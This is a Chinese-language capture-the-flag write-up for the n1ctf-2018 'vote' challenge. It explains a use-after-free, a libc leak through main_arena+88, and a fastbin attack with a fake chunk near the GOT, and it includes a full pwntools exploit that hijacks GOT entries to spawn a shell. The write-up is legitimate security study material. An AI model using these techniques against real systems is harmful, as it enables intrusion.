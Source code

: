 # 标题

> n1ctf-2018 : vote

## **原理**


取消功能中存在UAF。当取消给定的堆块时，相应的ptr_list [i]将不会设置为零。

## **目的**


在这个挑战中，我们需要泄漏堆的基地址和libc的基地址。

涉及到一个fastbin利用方法。


## **环境**
Ubuntu 16.04 

## **工具**
ida pro，gdb
## **步骤**

![](1.png)

即使堆块被free掉，依旧有指针指向这个堆块，我们可以通过 vote 对堆块的内容进行改变，典型的UAF。

网上有几个比较不错的 writeup，思路请参考文末的链接，这里我对几个比较难理解的点进行讲解。

- 首先是libc基地址的计算，exp中是这样计算的：

`libc_addr = leak - 88 - 0x10 - libc.symbols['__malloc_hook'] `

这里涉及到一个知识点：malloc_hook 与 main_arena+88 之间的偏移总是为 `0x10` 所以我们泄漏 main_arena+88 的地址之后，就可以通过 malloc_hook的偏移来计算出libc的基地址。

也可以通过这样的方式来计算：

`libc_addr = int(main_arena+88)-0x3c4b78`

不过这样的话，得先知道 libc 的版本（可以通过malloc_hook的偏移判断出来）。

![](2.png)

libc基地址为：0x00007f1d77c89000

![](3.png)

main_arena+88为：0x7f1d7804db78

所以两者之间的偏移为：

![](4.png)

- 第二个不大容易明白的点为，什么叫做构造伪堆。

exp如下：

```
payload = p64(0x60)+p64(got_pthread) +p64(0xabcdef)

create(0x40,payload)
create(0x40,"DDDD")

cancel(2)
cancel(3)
```

释放了堆块 2、3之后，形成了fastbin链：

![](5.png)

![](6.png)



当 add(3,24)之后，就指向了我们构造的伪堆。

- 还有一个问题就是为什么选择在 0x601ffa 构造另一个伪堆。
  这是因为如果直接用pthread的地址做伪堆的地址话，会由于size检查导致分配失败。

在这里，是利用了fasbin attack。因为fasbin单向链表的结构，通过修改fd的内容，来控制分配到的堆块所在的空间。


完整exp：

```python

#!/usr/bin/env python
from pwn import*
import time

local =1

if local:
    p = process('./vote')

else:
    p = remote("127.0.0.1",8080)

#context.log_level = 'debug'

def create(num,name):
    p.recvuntil("Action:")
    p.sendline("0")
    p.recvuntil("Please enter the name's size:")
    p.sendline(str(num))
    p.recvuntil("Please enter the name: ")
    p.sendline(name)

def show(num):
    p.recvuntil("Action:")
    p.sendline("1")
    p.recvuntil("Please enter the index:")
    p.sendline(str(num))

def vote(num):
    p.recvuntil("Action:")
    p.sendline("2")
    p.recvuntil("Please enter the index:")
    p.sendline(str(num))

def cancel(num):
    p.recvuntil("Action:")
    p.sendline("4")
    p.recvuntil("Please enter the index:")
    p.sendline(str(num))
def result():
    p.recvuntil("Action:")
    p.sendline("3")

def add(num,i):
    for i in range(0,i):
        vote(str(num))

#---------------leak addr----------------------------

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

create(0x80,"AAAA")
create(0x80,"BBBB")
cancel(0)

show(0)

p.recvuntil("count:")

leak = int(p.recvline()[:-1])

#libc_addr = int(main_arena+88)-0x3c4b78
libc_addr = leak - 88 - 0x10 - libc.symbols['__malloc_hook']  
one_gadget = libc_addr + 0x4526a

print "libc_addr=",hex(libc_addr)
print "one_gadget=",hex(one_gadget)

#---------------fake heap----------------------------

got_pthread = 0x601ffa #0x602020
print "got_pthread:",hex(got_pthread)

payload = p64(0x60)+p64(got_pthread) +p64(0xabcdef)

create(0x40,payload)
create(0x40,"DDDD")

cancel(2)
cancel(3)

add(3,24)
create(0x40,"FF")

#---------------shellcode----------------------------

write = libc_addr +libc.symbols['write']
strlen = libc_addr +libc.symbols['strlen']
shellcode =  "AAAAAA"+ p64(one_gadget) + p64(write) + p64(strlen)

create(0x40,"GG")
create(0x40,shellcode)
vote(0)
p.interactive()
```
## **参考阅读**

[N1CTF 赛题vote分析](https://www.cnblogs.com/Yable/p/8824590.html#commentform)

[N1CTF 2018 && 线程堆知识源代码分析](http://p4nda.top/2018/03/15/n1ctf2018/)